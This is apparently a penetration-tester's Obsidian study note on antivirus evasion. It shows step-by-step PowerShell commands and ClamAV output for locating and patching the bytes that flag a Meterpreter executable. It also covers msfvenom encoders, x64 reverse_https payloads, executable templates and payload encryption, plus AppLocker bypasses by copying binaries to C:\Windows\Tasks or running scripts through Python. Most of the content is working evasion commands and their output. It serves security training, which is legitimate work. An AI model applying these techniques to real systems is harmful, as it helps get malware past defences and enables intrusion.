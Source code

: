 ```yaml
---
tags:
- training material
created: 2020-01-01
lastmod: 2020-01-01
published: 2020-01-01
image: 
description: 
---
```

#### Find-AVSignature (good in theory, bad in practice)

>[!code]- Downloaded and Import Find-AVSignature
>###### [Download](https://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html) then Import Find-AVSignature
>```powershell
>Import-Module ./Find-AVSignature.ps1
>```

>[!code]- Run Find-AVSignature to find the flagged byte[s]
>###### Run for the first time
>- `StartByte 0`, `EndByte max` to scan the entire executable
>- `Interval` to specify the size of each individual segment of the file to split
>```powershell
>PS C:\Tools> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
>```
>###### Run AV against each split file
>The below output shows that the first signature was detected in the third file, somewhere between offset 10000 and 20000.
>```powershell
>PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest1
>C:\Tools\avtest1\met_0.bin: OK  
>C:\Tools\avtest1\met_10000.bin: OK
>C:\Tools\avtest1\met_20000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_30000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_40000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_50000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_60000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_70000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_73801.bin: Win.Trojan.MSShellcode-7 FOUND
>```
>###### Re-run against the first flagged file, but with increasinly granular parameters
>This will show where in first flagged file the flagged byte sequence lies.
>```powershell
>PS C:\Tools> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
>
># After the above results... more granular...
>PS C:\Tools> Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
>
># More granular
>PS C:\Tools> Find-AVSignature -StartByte 18800 -EndByte 18900 -Interval 10 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
>
>PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
>C:\Tools\avtest5\met_18860.bin: OK
>C:\Tools\avtest5\met_18861.bin: OK
>C:\Tools\avtest5\met_18862.bin: OK
>C:\Tools\avtest5\met_18863.bin: OK
>C:\Tools\avtest5\met_18864.bin: OK
>C:\Tools\avtest5\met_18865.bin: OK
>C:\Tools\avtest5\met_18866.bin: OK
>C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
>```

>[!code]- Change the flagged byte[s]
>###### Using PowerShell
>```powershell
>$bytes = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
>$bytes[18867] = 0
>[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
>```

>[!warning]- Sometimes you need to modify the before or after byte instead

>[!warning]- Sometimes also you need to change the flagged byte to 0xFF rather than 0x00

>[!code]- Bring back functionality to changed bytes
>Changing the bytes probably makes the exploit not work anymore. The exploit needs to be altered in such a way that it works again.
#### Encoding & encrypting payloads

>[!warning]- Encoding and/or encrypting alone may not work because the decoder/decryptor could be detectable

>[!code]- Msfvenom
>###### Use encoders (-e)
>```powershell
># 32-bit
>msfvenom -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
># 64-bit
>msfvenom -e x64/zutto_dekiru
>```
>###### Use 64-bit payload where possible (/x64/)
>```powershell
>msfvenom -p windows/x64/meterpreter/reverse_https
># rather than
>msfvenom -p windows/meterpreter/reverse_https
>```
>###### Use templates (-x)
>```powershell
>msfvenom -x /home/kali/notepad.exe
>```
>###### Use encryption (--encrypt, --encrypt-key)
>```powershell
>msfvenom --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43
>```
#### AppLocker Bypasses

>[!code]-
>###### Change directory application run from
>```powershell
>copy C:\Windows\System32\calc.exe C:\Windows\Tasks\calc2.exe
>```
>###### Use Python or Perl
>```powershell
>C:\Users\student> python test.py
>```